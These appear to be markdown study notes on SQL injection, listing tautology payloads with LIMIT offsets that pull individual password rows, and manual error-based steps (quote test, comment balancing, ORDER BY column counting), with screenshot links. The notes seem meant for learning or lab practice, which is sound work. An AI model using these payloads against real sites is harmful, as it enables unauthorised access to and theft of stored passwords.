 

### SQL Injection Payload

Query - Select password from user where username='root';

1. payload - username='root  **' or '1' = '1**   ';

![SQL%20Injection%20Payload%20f46d7d2c2ac9439e8faaed0341ecec94/Capture.png](SQL%20Injection%20Payload%20f46d7d2c2ac9439e8faaed0341ecec94/Capture.png)

 2.  To select first password field. use payload - username='root   **' or '1' = '1' limit 1 #**      ';

![SQL%20Injection%20Payload%20f46d7d2c2ac9439e8faaed0341ecec94/Capture%201.png](SQL%20Injection%20Payload%20f46d7d2c2ac9439e8faaed0341ecec94/Capture%201.png)

 3.  To select first two password field. use payload - username='root    **' or '1' = '1' limit 0,2 #**     ';

![SQL%20Injection%20Payload%20f46d7d2c2ac9439e8faaed0341ecec94/Capture%202.png](SQL%20Injection%20Payload%20f46d7d2c2ac9439e8faaed0341ecec94/Capture%202.png)

4.  To select second password field only. Use payload - username='root   **' or '1' = '1' limit 1,1 #**    ';

![SQL%20Injection%20Payload%20f46d7d2c2ac9439e8faaed0341ecec94/Capture%203.png](SQL%20Injection%20Payload%20f46d7d2c2ac9439e8faaed0341ecec94/Capture%203.png)

5. For 3rd password field. use payload - username='root      **' or '1' = '1' limit 2,1 #**       ';

![SQL%20Injection%20Payload%20f46d7d2c2ac9439e8faaed0341ecec94/Capture%204.png](SQL%20Injection%20Payload%20f46d7d2c2ac9439e8faaed0341ecec94/Capture%204.png)


### Manual Error based SQL Injection

1. id=1

![Manual%20Error%20based%20SQL%20Injection%20f1dc8dabc2d44afeb963d336e8556235/Capture.png](Manual%20Error%20based%20SQL%20Injection%20f1dc8dabc2d44afeb963d336e8556235/Capture.png)

2. To check error-based sql exists. Type '.

Payload- **?id=1'**

![Manual%20Error%20based%20SQL%20Injection%20f1dc8dabc2d44afeb963d336e8556235/Capture%201.png](Manual%20Error%20based%20SQL%20Injection%20f1dc8dabc2d44afeb963d336e8556235/Capture%201.png)

3. Payload - **?id=' or 'a'='a**

![Manual%20Error%20based%20SQL%20Injection%20f1dc8dabc2d44afeb963d336e8556235/Capture%202.png](Manual%20Error%20based%20SQL%20Injection%20f1dc8dabc2d44afeb963d336e8556235/Capture%202.png)

4. Try to balance sql statement **?id=' --+**

![Manual%20Error%20based%20SQL%20Injection%20f1dc8dabc2d44afeb963d336e8556235/Capture%203.png](Manual%20Error%20based%20SQL%20Injection%20f1dc8dabc2d44afeb963d336e8556235/Capture%203.png)

5.  payload - **?id=' order by 1 --+**     To get no. of column. 

![Manual%20Error%20based%20SQL%20Injection%20f1dc8dabc2d44afeb963d336e8556235/Capture%204.png](Manual%20Error%20based%20SQL%20Injection%20f1dc8dabc2d44afeb963d336e8556235/Capture%204.png)

6. Increase column no. until got sql error.
